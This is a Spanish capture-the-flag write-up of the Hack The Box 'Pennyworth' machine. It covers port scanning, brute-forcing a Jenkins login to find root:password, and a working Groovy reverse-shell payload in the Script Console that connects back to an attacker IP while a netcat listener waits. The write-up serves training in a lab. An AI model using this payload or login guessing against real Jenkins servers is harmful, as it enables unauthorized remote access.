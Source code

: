 ```yaml
---
title: Writeup pennyworth - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - pennyworth
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina pennyworth en Hack The Box.
keywords:
  - writeup pennyworth
  - hack the box pennyworth
  - resolución máquina pennyworth
  - pennyworth hack the box
  - htb pennyworth
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Pennyworth)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=vC5kp8ODqls))
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=7umykwIvKAI)

--------

#veryeasy #linux #nmap #ping #groovy #reverseshell

----
# Guided Mode

1)¿Qué significan las siglas CVE?
	Common Vulnerabilities and Exposures

2)¿Qué significan las tres letras de CIA, en referencia a la tríada de la CIA en ciberseguridad?
	Confidentiality, Integrity, Availability

3)¿Cuál es la versión del servicio que se ejecuta en el puerto 8080?
	Jetty 9.4.39.v20210325

4)¿Qué versión de Jenkins se está ejecutando en el objetivo?
	Jenkins[2.289.1]

5)¿Qué tipo de script se acepta como entrada en la Consola de Script de Jenkins?
	groovy

6)¿A qué equivaldría la variable «String cmd» del fragmento de Groovy Script si la máquina virtual de destino estuviera ejecutando Windows?
	cmd.exe

7)¿Cuál es un comando diferente a «ip a» que podríamos usar para mostrar la información de nuestras interfaces de red en Linux?
	ifconfig

8)¿Qué switch debemos utilizar con netcat para que utilice el modo de transporte UDP?
	-u

9)¿Cuál es el término utilizado para describir cómo hacer que un host de destino inicie una conexión de vuelta al host atacante?
	reverse shell

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.255.235
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.255.235 -oG allports
nmap -sCV -p8080 10.129.255.235 -oN target
```

![[Pennyworth1.png]]

![[Pennyworth2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`8080` HTTP

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.255.235:8080
```

![[Pennyworth3.png]]
La unica informacion relevante es lo de jetty 9.4.39  y Jenkings 2.289.1

----
# Intrusion al panel de logeo con [[Caido]]

Entramos a la pagina y vemos este panel de logeo
![[Pennyworth4.png]]
Interceptamos la peticion con [[Caido]] la mandamos al *Automate* y con los diccionarios de Seclits que usamos para estos casos, vamos a descubrir filtrando por el Lenght

![[Pennyworth8.png]]
Las credenciales validas son :   root:password

Ya estamos adentro
![[Pennyworth5.png]]

---------
# [[Reverse shell]]

Apretamos donde dice *Manage Jenkins* en la columna de la derecha
![[Pennyworth9.png]]

Despues vamos abajo donde dice *Script Console* y entramos

![[Pennyworth10.png]]

Vamos a poner el payload que sacamos de este [articulo](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
![[Pennyworth7.png]]
#### Payload
```groovy
String host="10.10.16.16";
int port=443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Mientras estamos en escucha con [[nc -nlvp 443]], y no se le dan importancia a los errores de la consola de groovy por que igualemnte no tira la revershell, una vez dentro ya podemos catear la flag

![[Pennyworth6.png]]

--------
# Notas

Confidentiality, Integrity, Availability
	La tríada CIA en ciberseguridad representa **Confidencialidad, Integridad y Disponibilidad**. Son los tres pilares fundamentales para proteger la información: evitar accesos no autorizados, mantener los datos correctos y asegurarse de que estén siempre accesibles.


--------
# Creditos
Writeup Oficial HackTheBox


